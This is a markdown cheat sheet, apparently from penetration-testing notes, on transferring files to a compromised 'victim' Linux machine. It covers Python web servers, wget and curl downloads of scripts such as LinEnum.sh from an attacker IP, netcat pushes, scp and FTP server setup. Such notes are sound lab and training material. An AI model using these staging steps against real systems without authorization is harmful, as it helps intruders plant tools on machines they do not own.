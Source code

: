 # Transfering Files on Linux

## Web Transfer

### Set Up a Simple Python Webserver on Local machine
```
python -m SimpleHTTPServer 80
python3 -m http.server 80
```
### Download files to victim machine with Wget
```
wget http://10.10.14.13/LinEnum.sh
wget http://10.10.14.13/LinEnum.sh -O /tmp
wget -r -nH  --no-parent --reject="index.html*" http://10.10.14.13/dir1
```
### Download files to victim machine with Curl
```
curl -O http://192.168.0.101/file.txt
```

## Netcat
> ##### On victim machine:
```
nc -lvp 3333 > enum.sh
```
> ##### On the attacking machine:
```
nc 10.10.10.169 3333 < enum.sh
```

## SCP
```
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```
## FTP
### Up FTP Server on your machine:
> ##### Daemon method
```
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd 
```

> ##### Python method
```
python -m pyftpdlib -p 21 -w
```
